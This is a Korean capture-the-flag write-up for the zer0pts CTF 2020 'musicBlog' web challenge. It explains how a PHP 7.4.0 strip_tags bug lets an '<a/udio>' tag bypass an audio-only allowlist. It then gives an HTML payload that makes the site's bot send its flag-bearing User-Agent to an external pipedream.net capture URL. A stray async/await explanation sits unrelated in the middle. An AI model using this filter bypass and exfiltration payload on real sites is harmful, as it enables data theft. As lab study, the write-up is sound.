 ```yaml
---
emoji: 🥓
title: zer0pts ctf 2020 - musicBlof 취약점 분석
author: Zer0Luck
date: '2020-08-24 03:10:20'
categories: CTF
tags: Web Zer0pts CTF
---
```


# 취약점 분석

> Name
> musicBlog

> Description
> You can introduce favorite songs to friends with MusicBlog!

> File
> MusicBlog.tar.gz

## DockerFile 분석

![./0.png](./0.png)

- PHP 7.4.0 버전을 사용하는 것을 확인할 수 있으며 해당 버전에 맞는 버그를 바탕으로 flag를 획득할 수 있겠다.

```jsx
async function 함수이름() {
	await 비동기 처리 메서드 명();
}
```

- 함수의  앞에 async 라는 예약어를 붙인후, 함수 내부에서 비동기 처리가 필요한 메서드에 await를 붙여준다.
- await 붙인 메서드는 비동기 처리 메서드가 꼭 promise 객체를 반환해야 await가 의도한 대로 동작한다.

## flag 문자열 찾기

![./1.png](./1.png)

- flag 문자열을 검색하여 `worker.js` 소스코드를 확인할 수 있다.
- 해당 코드를 보면 재선언, 재할당이 불가능하도록 설정되어 있다. `zer0pts{<censored>}`
- setUserAgent 메서드를 바탕으로 flag 값을 UserAgent로 설정하는 것을 확인할 수 있다.

## SamplePage

![./2.png](./2.png)

![./3.png](./3.png)

- Sample Page 분석시 `<audio>` 태그를 사용하여 post 올릴 수 있는것으로 추정된다.

## post.php 분석

![./4.png](./4.png)

- post를 게시할 때 문자열 필터링을 하는 부분이 존재한다. 해당 부분은 `render_tags` 함수를 바탕으로 제어된다.

## util.php 분석

![./5.png](./5.png)

- `redner_tags` 함수는 util.php에 구현되어 있으며 사용자의 입력값을 인자로 받아와 `preg_replace` 함수를 바탕으로,

```php
$str = preg_replace('/\[\[(.+?)\]\]/',
	'<audio controls src="\\1"></audio>', '[[www.naver.com]]');

=>
<audio controls src="www.naver.com"></audio>
```

- `[[URL]]` 정규화를 바탕으로 `<audio>` 치환되는 모습을 확인할 수 있다
- 두번 째 필터로는 `strip_tags` 함수로 `<audio>` 태그를 정확히 써야 허용되는 메서드이다.

```php
strip_tags('<audio>', '<audio>'); // => allows
strip_tags('<script>', '<audio>'); // => Deny
```

- 하지만 두 번째 필터링 부분에서 PHP 버그가 발생한다.

## strip_tags allows / in tag name, allowing whitelist bypass in browsers

![./6.png](./6.png)

- `strip_tags` 관련 bug를 확인하면 만약 `<strong>` 태그를 화이트리스트에 존재할 경우 `<s/trong>` 구문도 그대로 복사되어 유지되는 모습을 확인할 수 있다.

## PHP Bug 테스트

![./7.png](./7.png)

![./8.png](./8.png)

- `<audio>` 태그 부분에 `/` 을 입력하여 `strip_tags` 메서드 버그로 인하여 다음과 같이

```html
<a udio>PHP BUG</a>
```

- `a` 태그 로 인식하게되어 우회가 가능하다. 그렇다면 a태그를 사용하여 외부 서버로 요청을 보내게 되면 `user-agent` 헤더 부분을 읽을 수 있지 않을까?
- 그렇다면 앞에서 분석해본 `work.js` 에서는 `newPage()` 메서드를 통해 생성을 한 후에 `UserAgent`를 바탕으로 적용을 한후 `id: like` 이벤트가 발생하였을 경우 적용된 resource를 받을 수 있기 때문에 페이로드를 짤때 `id` 값을 like로 적용을 한 후에 보내야 한다.

```html
<a/udio href="https://11973bb238cad6a84c369c6b0060ed0b.m.pipedream.net" id="like">
	 EXPLOIT </a/udio>
```

![./9.png](./9.png)

![./10.png](./10.png)

## response Event 확인

![./11.png](./11.png)

- 응답 결과 헤더 라인에 user-agent 속성에서 FLAG 값을 확인할 수 있다.

``` toc
```